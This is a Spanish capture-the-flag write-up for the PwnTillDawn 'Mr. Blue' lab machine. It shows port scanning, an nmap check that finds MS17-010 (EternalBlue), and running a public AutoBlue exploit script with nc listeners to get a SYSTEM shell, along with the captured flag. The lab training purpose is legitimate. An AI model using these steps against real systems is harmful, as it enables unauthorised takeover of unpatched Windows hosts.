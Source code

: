 # WRITEUP Mr. Blue

### ESCANEO
#### 10.150.150.242	Windows	Easy
```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
3389/tcp  open  ms-wbt-server
8089/tcp  open  unknown
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49197/tcp open  unknown
```
Como siempre, iniciamos escaneando los puertos abiertos de la box. A primera vista vemos varios puertos interesantes que son "comunes", el puerto 53,80, y 445.



### ENUMERACIÓN

Al ingresar al puerto 80, podemos ver una imagen como index

![img](img/1.PNG)

Al intentar un fuzzeo de directorios no nos arrojó nada, por lo tanto dejaremos de lado este sitio. Ahora pasaremos al puerto 53, y lo primero que se nos viene a la mente al ver el puerto 53 abierto es verificar si tiene algún dominio. Para ello utilizaremos la utilidad dig para realizar [ZONE TRANSFER](https://www.welivesecurity.com/la-es/2015/06/17/trata-ataque-transferencia-zona-dns/) pero no conseguimos nada.

```
dig axfr @10.150.150.242
; <<>> DiG 9.16.12-Debian <<>> axfr @10.150.150.242
; (1 server found)
;; global options: +cmd
;; Query time: 112 msec
;; SERVER: 10.150.150.242#53(10.150.150.242)
;; WHEN: mié mar 10 00:23:44 CST 2021
;; MSG SIZE  rcvd: 40
```

Ahora nos queda el puerto 445, para ello podemos intentar listar recursos compartidos o verificar si su versión tiene alguna vulnerabilidad publica. Para ello lanzaremos los scripts de nmap.

```
nmap 10.150.150.242 -p445 --script="smb-vuln*"
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 00:29 CST
Nmap scan report for 10.150.150.242
Host is up (0.11s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

Como podemos observar, es vulnerable a un RCE (Eternalblue CVE-2017-0143) .

### EXPLOTACIÓN 

Tenemos 2 maneras de explotar esta vulnerabilidad, utilizando Metasploit o realizandolo a "mano". En nuestro caso lo vamos a realizar a mano, y para ello encontré [este script](https://github.com/3ndG4me/AutoBlue-MS17-010).

Una vez descargado, nos vamos a la carpeta "shellcode" y ejecutamos el script sh. Llenamos la información y nos dará un par de binarios.

![img](img/2.PNG)


El siguiente paso será poner nc en escucha en los ambos puertos que configuramos en el paso anterior. 
Después queda solamente ejecutar el exploit de la siguiente manera:

```
┌─[root@parrot]─[~/pwntilldawn/mrblue/AutoBlue-MS17-010]
└──╼ #python eternalblue_exploit7.py 10.150.150.242 shellcode/sc_all.bin
```

Y tenemos shell.
```
c:\users\Administrator.GNBUSCA-W054\desktop>whoami
whoami
nt authority\system

c:\Users\Administrator.GNBUSCA-W054\Desktop>type FLAG34.txt
type FLAG34.txt
c2e9e102e55d5697ed2f9a7ea637
```



Contacto: [Linkedin](https://www.linkedin.com/in/jairr/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
